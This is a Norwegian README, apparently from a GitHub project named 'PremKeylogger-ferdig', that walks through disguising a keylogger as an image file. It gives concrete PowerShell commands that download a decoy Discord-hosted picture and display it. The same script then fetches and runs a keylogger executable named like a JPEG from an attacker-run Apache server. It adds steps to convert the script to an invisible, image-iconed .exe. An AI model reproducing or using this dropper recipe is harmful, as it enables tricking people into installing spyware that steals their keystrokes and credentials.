 # PremKeylogger-ferdig

Verktøy:
-Hyper-V manager
-Winscp
-Kali linux
-bat to exe converter
-2 bilder
-1 ICO (ikon)

---------------------------------------------------------------------------------------------------------------------------------------------------------|

Koden ble skrevet i Visual studio, hvordan du implenterer koden i et "bilde" er gjort i Kali Linux.

--------------------------------------------------------------------------------------------------------------------------------------------|

For å få "injecte" keyloggeren inn i et "bilde" må du lage apache2 web server for å lagre din keylogger inni den.

--------------------------------------------------------------------------------------------------------------------------------------------|

For å gjøre det trenger du Kali linux. Det er for å sette opp en Apache web server. Du må også overføre din keylogger
til din Kali linux. Du trenger "Winscp" for å gjøre dette.

--------------------------------------------------------------------------------------------------------------------------------------------|

For å sjekke at din Apache2 web server er oppe kan du skrive inn din kali linux sin ip adresse, kommando for å få ip adresse: "ip a".
Når du har Ip adressen skriver du inn i google chrome "http://DIN IP ADRESSE"

--------------------------------------------------------------------------------------------------------------------------------------------|

For å legge keylogger filen inn på din apache2 web server går du inn på kali linux:
-> "Open folder", øverst til venstre -> finn keyloggeren -> høyreklikk -> cut -> file system - Var -> www -> html -> høyreklikk -> paste.

--------------------------------------------------------------------------------------------------------------------------------------------|

Finn et passende bilde som har en URl som slutter på .png, .jpg eller .jpeg som for eksempel:
https://cdn.discordapp.com/attachments/669940183805984806/960943869988593764/20220405_184733.jpg
Så trenger vi URL til keyloggeren, du finner dette ved å gå inn på din Apache2 webs server, høyreklikke på filen -> Copy

--------------------------------------------------------------------------------------------------------------------------------------------|
Deretter gå inn på powershell på din vanlige pc. NB! gjør dette på notepad først. 
Skriv inn:
cd %TEMP%
Invoke-webRequest 'bilde URL' -OutFile passende navn.jpg
passende navn.png
Invoke-webRequest 'fil IRL' -OutFIle passende navn.exe (eller .bat)

--------------------------------------------------------------------------------------------------------------------------------------------|

Det kan se sånn ut:

cd %TEMP%
Invoke-webRequest 'https://cdn.discordapp.com/attachments/669940183805984806/960943869988593764/20220405_184733.jpg' -OutFile By.jpg
By.jpg
Invoke-webRequest 'http://192.168.50.221/S%c3%b8tHund.jpeg.exe' -OutFile SøtHund.jpeg.exe
SutHund.jpeg.exe

--------------------------------------------------------------------------------------------------------------------------------------------|

Lagre notepad filen der du kan finne den. Filtypen skal være "all files". Gi filen et passende navn som slutter på .exe. feks "SøtHunnd.exe".

--------------------------------------------------------------------------------------------------------------------------------------------|

Copy paste teksten på powershell, start den. Nå har vi en fil som gjør at hvis brukeren trykker på filen starter den programmet, ved at den installerer
et bilde, og hviser den. For å gi den et ikon trenger vi bat to exe converter. 
Dra filen inn på bat to exe converter -> Icon -> trykk på de 3 prikkene -> finn Ico filen -> exe format 32 bit | Windows (Invisible) -> Convert ->
navngi den et passende navn -> save

--------------------------------------------------------------------------------------------------------------------------------------------|

